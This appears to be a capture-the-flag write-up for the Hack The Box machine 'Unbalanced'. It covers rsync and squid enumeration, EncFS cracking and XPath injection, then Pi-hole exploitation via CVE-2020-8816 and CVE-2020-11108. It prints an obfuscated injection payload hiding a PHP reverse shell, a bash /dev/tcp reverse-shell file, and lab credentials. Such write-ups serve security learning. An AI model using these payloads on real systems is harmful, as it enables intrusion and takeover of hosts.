 # Unbalanced - Hard

### Initial nmap scan
At first I've run `nmap -p- -v 10.10.10.200` to move as fast as possible, and further on I've run all the needed scripts using `nmap -sC -sV -p22,837,3128 -oN nmap/all 10.10.10.200`. So in the end the result was
```
# Nmap 7.91 scan initiated Tue Dec  1 15:31:11 2020 as: nmap -sC -sV -oN nmap/all -p22,3128,873 10.10.10.200
Nmap scan report for 10.10.10.200
Host is up (0.055s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:76:5c:b0:88:6f:9e:62:e8:83:51:e7:cf:bf:2d:f2 (RSA)
|   256 d0:65:fb:f6:3e:11:b1:d6:e6:f7:5e:c0:15:0c:0a:77 (ECDSA)
|_  256 5e:2b:93:59:1d:49:28:8d:43:2c:c1:f7:e3:37:0f:83 (ED25519)
873/tcp  open  rsync      (protocol version 31)
3128/tcp open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec  1 15:31:39 2020 -- 1 IP address (1 host up) scanned in 27.43 seconds
```

### Enumerating the rsync (873)
To take them in an order I've decided to look over the rsync first. Here we can list all the directory shares using `rsync -av --list-only rsync://10.10.10.200:873/`. Now to gather them we can just create a new directory and let them download, `rsync -av --list-only rsync://10.10.10.200:873/conf_backups ./rsync`.
After the download is finished we getr an entire folder which seems to be encrypted (if it wasn't that obvious from the directory description). If we look more closely we can see a file called `.encfs6.xml`. Well this seems to contain more information about the directory: It was encrypted using `EncFS 1.9.5` and we also get a key which seems to be AES-256. Here we can use [encfs2john.py](https://github.com/truongkma/ctf-tools/blob/master/John/run/encfs2john.py) which will help us crack the key. We paste the hash into a file and we run john with rockyou on it.
It has a hit: `bubblegum`. Now we must move the directory `rsync` to `~/encrypted` (i tried to do it in the same directory but somehow it didn't let me do it...) and we run `encfs -f -v ./rsync ~/decrypted`, paste the password that we've just found and voila we get an entire directory of `.conf` files. 
The only one that rised interest for me was `squid.conf` but it contained a lot of  lines starting with `#` so I've piped them to `cat 'squid.conf' | grep -v '#' |grep . > shrinkedSquid.conf` and now we have the right amount of information needed.
From here we find a new vhost `intranet.unbalanced.htb` and the fact that everything runs under a specific subnet, docker based, 172.16.0.0/12. Also at the bottom of the file we get a password for cache management system (??), which could've been accessed using the squidclient. So I've fast installed it using `apt install squidclient` and I've tried different options until I've reached to `squidclient -h 10.10.10.200 -u "intranet" -w 'Thah$Sh1' mgr:fqdncache` which gave me the exact information I needed: 
```
Address                                       Flg TTL Cnt Hostnames
127.0.1.1                                       H -001   2 unbalanced.htb unbalanced
172.31.179.2                                    H -001   1 intranet-host2.unbalanced.htb
172.31.179.3                                    H -001   1 intranet-host3.unbalanced.htb
172.17.0.1                                      H -001   1 intranet.unbalanced.htb
```

### Exploiting the web (3128)
Now that we have all the subnet we must connect to the proxy and start looking around. In order to do this I've used FoxyProxy (A mozilla extension) and configured it this way:
```
Proxy Type: HTTP
Proxy IP: 10.10.10.200
Port: 3128
Username: intranet
```
Now we have a first look at the website and it doesn't have anything to interesting... just a login form and some pages. Checking the other seem to be the exact same replica. Well here I've been stuck a little until I've noticed the fact that we have `172.31.179.2` and `172.31.179.3` but there is no `172.31.179.1` so I checked it and I saw this `Host temporarily taken out of load balancing for security maintenance.`. I have tried to do `/intranet.php` (the exact same page as the others) and it worked. Well here I've run sqlmap but still didn't worked so I've tried different SQL injections until this worked `' or ''='`. It seemed a lot like an XPATH injection so I've decided to write a script in order to leak bryan's password (because he is the `System Administrator` so he must be our user.). The script can be found in this directory, under the name `xpathInjection.py`. The output of this was `Password: ireallireallyl0vebubblegum!!!` which seemed a bit odd. When i tried this on the ssh I got that password was wrong so I've tried `ireallyl0vebubblegum!!!` and it worked indeed. 

### Another subnet...
This part to be honest was kindof cool. In the main directory folder we've got a TODO file which pointed to another service on the box, Pi-hole which was planned to be release to the network. So I've downloaded the linpeas from my machine and ran it. Here there was another ip adress, that I didn't encounter yet `172.31.11.3`. 
When we go on the browser and we paste this we get a new website that says `Pi-hole`. This must be our path. I've changed to admin panel and than go to login. Here we can understand that the password is `admin` from the note `Set temporary admin password`. 

The version that is running on is 4.3.2 which has multiple RCE (Remote code execution) CVEs dated from 2020. This part from what I've understood can be done using metasploit module `exploit/unix/http/pihole_blocklist_exec` but it seemed way to complicated to setup the proxy again so I've decided to just do it manually (longer but less frustrating).
So in order to get the www-data shell I've followed this article related to [CVE-2020-8816](https://natedotred.wordpress.com/2020/03/28/cve-2020-8816-pi-hole-remote-code-execution/). For this the payload that I've crafted was:
```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e38222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```
> Note: if you copy this from the site don't forget to sanitize them because otherwise it will not work.
Having the www-data shell I've started to look around for the ways to privesc and I've encountered another article related to [CVE-2020-11108](https://frichetten.com/blog/cve-2020-11108-pihole-rce/). With this cve you could've get both www-data shell and root... but I've seen it after the first one so I just overwrote the `teleporter.php` with 
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.8/9002 0>&1'");
```
And than I've executed on the shell `sudo pihole -a -t` and the listener on 9002 poped a shell. Now because I was root on the pihole container I've checked the root folder which leaked the actual root password for the main system: `/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'`, in the `pihole_config.sh` file. 

Now we go back on the shell that we had as `bryan` do `su -` and paste the password. Now we finally rooted.

# Credentials
- bryan:ireallyl0vebubblegum!!!
- root:bUbBl3gUm$43v3Ry0n3!
- $6$6HrNX81SE9mBkmNY$oIh9jCV496j4WOURXy/NYMp0cKFLavEAnpsK/KF.spP/yv8ONiIphzBsi3YnIVkFFgFEAak5yMaTi5zbMwIYw1 (root hash)